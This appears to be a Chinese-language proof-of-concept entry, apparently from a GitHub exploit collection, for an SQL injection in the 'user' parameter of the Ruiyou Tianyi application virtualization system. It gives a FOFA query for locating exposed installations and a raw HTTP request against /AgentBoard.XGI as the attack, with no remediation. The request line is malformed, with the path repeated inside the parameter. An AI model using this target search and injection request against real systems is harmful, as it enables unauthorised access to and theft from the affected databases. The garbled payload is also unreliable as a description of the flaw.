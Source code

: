 ## 天翼应用虚拟化系统sql注入漏洞

天翼应用虚拟化系统 user 参数存在sql注入漏洞

## fofa
```
title="瑞友天翼-应用虚拟化系统" 
```

## poc
```
GET /AgentBoard.XGI?user=/AgentBoard.XGI?user=-1&cmd=UserLogin HTTP/1.1
Host: target
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

![image](../../images/de037448-69f3-4224-a47b-96d64274d0da.png)
